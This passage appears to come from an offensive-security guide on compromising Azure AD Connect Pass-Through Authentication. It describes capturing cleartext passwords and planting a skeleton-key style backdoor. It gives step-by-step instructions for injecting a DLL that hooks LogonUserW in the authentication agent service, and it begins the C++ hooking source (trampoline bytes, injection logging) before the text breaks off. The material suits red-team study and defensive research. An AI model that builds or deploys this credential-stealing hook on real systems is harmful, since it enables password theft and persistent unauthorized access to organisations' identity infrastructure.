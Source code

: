 The compromise of the `Azure AD Connect` server, or more
precisely put obtaining code execution in a security context with the
`SeDebugPrivilege` privilege enabled, thus allow:
  - for the retrieval of the authentication requests' cleartext username and
    password
  - the implementation of a backdoor, such as an hardcoded password that would
    validate access for any accounts (similarly to what could be achieved
    against on-premise Domain Controllers with the `skeleton key` attack).

*The attacks against the `PTA`, and the code introduced below, are based on
original research done by
[Adam Chester](https://blog.xpnsec.com/azuread-connect-for-redteam/) and
[Eric Saraga](https://www.varonis.com/blog/azure-skeleton-key/).*

###### Win32 API LogonUserW hooking

The following code should be compiled as a `DLL` and injected into the
`AzureADConnectAuthenticationAgentService` process on the `Azure AD Connect`
server.

Disclaimer: the `DACL` on the payload `DLL` must be configured to grant `Read`
access to the `NETWORK SERVICE` identity. If output files are being used to
log the authentication requests, the `DACL` on the output folder / files should
also allow write access.

The payload `DLL` will:
  1. Enter the `DllMain` entry point upon loading in the
     `AzureADConnectAuthenticationAgentService` process.
  2. Retrieve the address of the `LogonUserW` function, which is exported by
     the `advapi32.dll` library.
  3. Update the virtual address space protection of the `LogonUserW` function
     region to `PAGE_EXECUTE_READWRITE` (in order to be able to modify the
     function code).
  4. Inject in the legitimate `LogonUserW` function a jump to the
     hooking `LogonUserWHook` function.
  5. Restore the original virtual address space protection.

Whenever an Azure AD authentication will be processed by the
`AzureADConnectAuthenticationAgentService` process, the `LogonUserW` function
and, in turn, the `LogonUserWHook` function will thus be called. In order to
properly authenticate users, the `LogonUserWHook` function returns the result
of a call to the `LogonUserExW` function (which implement the same validation
but does not rely on the `LogonUserW` function).

```cpp
// Original author: Adam Chester / @_xpn_
// Source: https://gist.github.com/xpn/79a7f966b9dffd0ccf3505787f8060d7#file-azuread_hook_dll-cpp

#include <windows.h>
#include <stdio.h>
#include <fstream>

// Simple ASM trampoline
// mov r11, 0x4142434445464748
// jmp r11
unsigned char trampoline[] = { 0x49, 0xbb, 0x48, 0x47, 0x46, 0x45, 0x44, 0x43, 0x42, 0x41, 0x41, 0xff, 0xe3 };

BOOL LogonUserWHook(LPCWSTR username, LPCWSTR domain, LPCWSTR password, DWORD logonType, DWORD logonProvider, PHANDLE hToken);

void Start(void) {
    DWORD oldProtect;

    std::ofstream outfile;
    outfile.open("C:\\Windows\\Temp\\test.txt", std::ios_base::app);
    outfile << "Successfully injected payload DLL!" << "\n";
```